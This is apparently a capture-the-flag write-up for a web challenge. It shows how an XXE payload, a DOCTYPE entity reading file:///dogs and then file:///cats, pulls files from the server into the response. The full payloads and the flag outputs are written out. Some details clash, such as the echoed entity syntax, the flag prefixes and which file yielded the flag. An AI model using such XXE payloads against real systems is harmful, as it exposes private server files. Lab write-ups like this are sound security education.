 # Challenge 15 (External E) Solve

* Category - Web
* Difficulty - Hard

![](challenge-15.png)

---

 * This challenge as the name suggests with "External E" is probably pointing to another OWASP Top Ten (2017)
   * [XML Eternal External Entities (XXE)](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
 * So we have a payload that submits XML, so its obvious here we can modify this payload
 * So since XML has so many features with loading DTDs, we can just make up a vague doctype allowing it to be populated
with the data of the host machine.
 * The description hints at the file being at either `/dogs` or `/cats`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///dogs" >]>
<pets>
    <dogs>
        <dog>
            <name>&xxe;</name>
            <type>Spanish Water Dog</type>
        </dog>
        <dog>
            <name>Kirby</name>
            <type>Bichipoo</type>
        </dog>
    </dogs>
</pets>
```
 * So above you can see the addition of a `DOCTYPE` to create an entity under the `xxe` variable
 * That variable is populated via the ENTITY flag of the contents of the system's `/dogs` file.
   * The contents of this file have to be valid XML, otherwise it won't render and thus crash
 * That contents is then injected into the variable placeholder we have (`xxe`)

So what was returned was:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe test "file:///dogs">
]>
<pets>
    <dogs>
        <dog>
            <name>DATO{yoUVE_BEEN_BAMBOOZLED_TRY_CATS}</name>
            <type>Spanish Water Dog</type>
        </dog>
        <dog>
            <name>Kirby</name>
            <type>Bichipoo</type>
        </dog>
    </dogs>
</pets>
```

 * So its clear we should have done `/cats`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///cats">
]>
<pets>
    <dogs>
        <dog>
            <name>TOAD{xX3-15-c0mpL373-yAy}</name>
            <type>Spanish Water Dog</type>
        </dog>
        <dog>
            <name>Kirby</name>
            <type>Bichipoo</type>
        </dog>
    </dogs>
</pets>
```

 * Sure enough, using `/dogs` led to the extracted flag.
---
* You are left with the flag - `TOAD{xX3-15-c0mpL373-yAy}`.